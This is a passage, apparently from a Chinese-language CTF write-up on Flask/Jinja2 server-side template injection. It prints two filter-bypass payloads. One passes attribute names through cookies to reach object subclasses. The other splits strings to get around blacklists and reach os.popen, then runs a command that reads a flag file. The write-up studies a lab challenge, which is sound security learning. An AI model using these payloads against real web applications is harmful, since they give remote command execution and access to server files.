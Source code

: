 连起来就是，获取object子类。

```none
{{((request|attr(request.cookies.get('aa'))|attr(request.cookies.get('bb'))|list).pop(-1))|attr(request.cookies.get('cc'))()}}Cookie: aa=__class__;bb=__mro__;cc=__subclasses__
```

![image-20200424140101732](assets/20200424150550.png)

### 回顾

在flask plus中，采用的是session对象来解决问题，虽然在上一题中采用的是元组对象，但是只是因为其中没有禁用join，如果在plus中也禁用了session，还能怎么处理。

![image-20200424141236793](assets/20200424150552.png)

但实际并没有这么理想

![image-20200424145056229](assets/20200424150555.png)

这里面能采用的还有哪些，比如

```none
{{(((redirect|attr('__cla'+'ss__')|attr('__mr'+'o__')|list)[-1]|attr('__subcla'+'sses__')())[342]|attr('__in'+'it__')|attr('__globals__'))['pop'+'en']('cat%20/Th1s_is_F1114g').read()}}
```
